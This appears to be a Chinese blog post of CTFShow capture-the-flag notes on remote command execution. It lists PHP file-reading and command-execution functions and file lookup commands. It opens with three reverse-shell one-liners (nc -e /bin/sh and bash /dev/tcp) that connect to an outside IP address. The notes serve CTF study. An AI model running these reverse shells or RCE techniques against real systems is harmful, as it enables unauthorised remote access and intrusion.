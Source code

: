 ```yaml
---
title: CTFShow-命令执行
date: 2022-01-15 19:44:46
updated: 2023-01-15 19:44:46
tags: RCE
categories: CTFShow
toc: true
good_article: true
---
```


常见RCE的命令和bypass



### 一、知识点

```bash
nc 124.223.44.100 12345 -e /bin/sh
bash -i >& /dev/tcp/124.223.44.100/6666 0>&1
bash -c "bash -i >& /dev/tcp/124.223.44.100/6666 0>&1"
```

php一些rce函数

- 读取文件：`readfile()` `file_get_contents()` `show_source()` `echo include()+php伪协议` `highlight_file()`
- 打印当前所有变量：`get_defined_vars()`
- 扫描目录：`scandir()`
- 重命名文件：`rename('','')`





#### 常见操作命令

- 常见命令执行函数
  - system()
  - passthru()
  - exec()
  - shell_exec()
  - `反引号
  - ob_start()

- 1.查看文件

  - **<font color='red'>linux查看文件命令</font>**![](https://api2.mubu.com/v3/document_image/9d92c7b7-692a-4245-bb71-e28aae82ea48-10191865.jpg)

  - <font color='red'>windows：type flag.txt</font>

- 2.查找文件
  - [linux查找文件](https://blog.csdn.net/xxmonstor/article/details/80507769)

  - find命令![img](https://api2.mubu.com/v3/document_image/894f7bfb-df81-4091-bd7b-ef0076719340-10191865.jpg)
